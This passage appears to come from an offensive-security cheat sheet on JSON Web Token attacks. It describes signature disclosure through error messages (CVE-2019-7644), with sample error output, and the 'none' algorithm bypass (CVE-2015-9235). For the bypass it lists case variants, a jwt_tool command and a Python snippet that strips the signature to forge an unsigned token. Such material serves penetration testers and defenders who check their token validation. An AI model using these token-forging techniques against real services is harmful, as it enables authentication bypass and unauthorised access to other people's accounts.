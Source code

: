 
### JWT Signature - Disclosure of a correct signature (CVE-2019-7644)

Send a JWT with an incorrect signature, the endpoint might respond with an error disclosing the correct one.

* [jwt-dotnet/jwt: Critical Security Fix Required: You disclose the correct signature with each SignatureVerificationException... #61](https://github.com/jwt-dotnet/jwt/issues/61)
* [CVE-2019-7644: Security Vulnerability in Auth0-WCF-Service-JWT](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)

```
Invalid signature. Expected SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c got 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
Invalid signature. Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```


### JWT Signature - None Algorithm (CVE-2015-9235)

JWT supports a `None` algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* none 
* None
* NONE
* nOnE

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT. However, this won't work unless you **remove** the signature

Alternatively you can modify an existing JWT (be careful with the expiration time)

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

* Manually editing the JWT
    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)  					

    # decode the token before encoding with type 'None'
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```
